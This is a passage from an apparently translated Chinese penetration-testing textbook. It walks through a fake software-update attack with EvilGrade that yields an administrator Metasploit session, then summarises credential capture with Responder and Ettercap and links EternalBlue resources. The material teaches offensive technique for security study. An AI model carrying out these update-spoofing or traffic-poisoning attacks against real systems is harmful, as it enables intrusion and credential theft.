我们以 rred 身份登录，Randy Red 是一名 PAON 用户，因此我们获得了 UAC 登录。我们找到管理员，他们登录运行更新。如果用户已经拥有管理员权限，UAC 框仍将出现，但您可以正常单击 OK，一切正常。让您对 UAC 安全性感到好奇：


文件会运行，与大多数更新一样，系统在安装更新后不会真正执行任何操作。用户回去工作时认为世界是美好的。让我们看看卡利盒子上发生了什么。

嗯，看来我们有一个会话是由具有管理员权限的用户 fflintstone 打开的。我们在 rred 的帐户下，但我们有管理权。要与会话类型交互，请使用以下命令：

```
sessions -i 1 # Where 1 is the active session number.  
```


正如这里的信息所说，其结果如下：


在我们运行的 EvilGrade 终端中，我们可以看到受害者机器与邪恶服务器的交互。在以下屏幕截图中，您可以看到正在上载到受害者的恶意网页：


因此，你有它的更新可能不会像你认为的那样安全。始终从安全网络进行更新。再次回顾一下使用此方法容易受到攻击的系统和应用程序列表。

请注意，Windows 安全方法（如 UAC）没有阻止此攻击。对系统来说，它似乎在给家里打电话，并且在和妈妈说话，妈妈永远不会喂你任何不好的东西。

对于 Linux 系统，在 RedHat 系统上使用 apt get 或 yum 时，此攻击将失败。是的，您可以欺骗存储库站点，但是当下载更新（实际上是我们的负载）时，它将无法安装，因为所有存储库包都使用 GPG 密钥签名。由于我们的虚假更新没有签名，我们的攻击失败了。关于使用 GPG 和公钥/私钥，有一些话要说。

# 总结

在本章中，您已经了解了 NTLM 和 LLMR 协议的工作原理及其固有的弱点。您已经了解了如何毒害网络流量以捕获用户凭据。

您还学习了如何使用许多工具，如 Responder 和 Ethercap，协同利用您的目标系统。最后，我们学习了如何欺骗更新服务，如 Windows update，并使用此服务利用系统进行攻击。

# 进一步阅读

响应者的 GitHub 可在此处找到：[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

Ettecap 项目页面可在此处找到：[https://www.ettercap-project.org/](https://www.ettercap-project.org/)

有关 MS17-010（EternalBlue）漏洞的更多信息，请访问以下链接：

*   [https://cvedetails.com/cve/CVE-2017-0143/](https://cvedetails.com/cve/CVE-2017-0143/)
*   [https://cvedetails.com/cve/CVE-2017-0144/](https://cvedetails.com/cve/CVE-2017-0144/)
*   [https://cvedetails.com/cve/CVE-2017-0145/](https://cvedetails.com/cve/CVE-2017-0145/)
*   [https://cvedetails.com/cve/CVE-2017-0146/](https://cvedetails.com/cve/CVE-2017-0146/)
*   [https://cvedetails.com/cve/CVE-2017-0147/](https://cvedetails.com/cve/CVE-2017-0147/)
*   [https://cvedetails.com/cve/CVE-2017-0148/](https://cvedetails.com/cve/CVE-2017-0148/)
*   [https://technet.microsoft.com/en-us/library/security/MS17-010](https://technet.microsoft.com/en-us/library/security/MS17-010)
*   [https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html](https://zerosum0x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html)
*   [https://github.com/countercept/doublepulsar-detection-script](https://github.com/countercept/doublepulsar-detection-script)
*   [https://technet.microsoft.com/en-us/library/security/ms17-010.aspx](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx)

作者提供的有关 SMB 欺骗以及如何解决问题的更多信息可在此处找到：[http://www.boweaver.com/security/ntlm.php](http://www.boweaver.com/security/ntlm.php)